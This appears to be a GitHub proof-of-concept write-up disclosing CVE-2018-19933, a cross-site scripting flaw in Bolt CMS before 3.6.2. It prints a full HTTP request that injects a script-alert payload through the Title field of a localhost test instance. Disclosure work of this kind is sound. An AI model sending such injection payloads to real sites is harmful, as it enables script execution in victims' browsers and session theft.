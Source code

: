 # Bolt CMS <3.6.2 - Cross-Site Scripting Vulnerability
 Bolt CMS &lt;3.6.2 - Cross-Site Scripting Vulnerability

# CVE-2018-19933
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-19933

# PoC
To exploit vulnerability, Bolt CMS <3.6.2 allows XSS via text input click preview button as demonstrated by the Title field of a Configured and New Entry.

 ```
 POST /preview/page HTTP/1.1
Host: 127.0.0.1:8000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:63.0) Gecko/20100101 Firefox/63.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://localhost/bolt/editcontent/pages
Content-Type: application/x-www-form-urlencoded
Content-Length: 396
Connection: close
Cookie: bolt_session_cf7976ea5999f8e272ce7cd50c84d240=14b61865131cf9422af970ae28a097b7; bolt_authtoken_cf7976ea5999f8e272ce7cd50c84d240=0b69633d5a549f19bf3faa88462b7b8e17ba57ba9dff6d25a708efe6dd6a9a04
Upgrade-Insecure-Requests: 1

content_edit%5B_token%5D=jMmm41dJQXpXx3gwE_VQkA60fdsNo6DERJClPVkYh7U&editreferrer=&contenttype=pages&title=%3Cscript%3Ealert%28%22Raif%22%29%3C%2Fscript%3E&slug=script-alert-raif-script&image%5Bfile%5D=&files%5B%5D=&teaser=&body=&template=&taxonomy%5Bgroups%5D%5B%5D=&taxonomy-order%5Bgroups%5D=0&id=&status=draft&datepublish=2018-12-07+00%3A12%3A05&datedepublish=&ownerid=1&_live-editor-preview=

 ```
 
 PoC (Video)
 
[![PoC_Video](http://img.youtube.com/vi/3eTPyIpjCJg/0.jpg)](http://www.youtube.com/watch?v=3eTPyIpjCJg "")

Screenshots
 
![PoC_1](https://raw.githubusercontent.com/rdincel1/Bolt-CMS-3.6.2---Cross-Site-Scripting/master/PoC_1.PNG)
![Request](https://raw.githubusercontent.com/rdincel1/Bolt-CMS-3.6.2---Cross-Site-Scripting/master/burp.PNG)
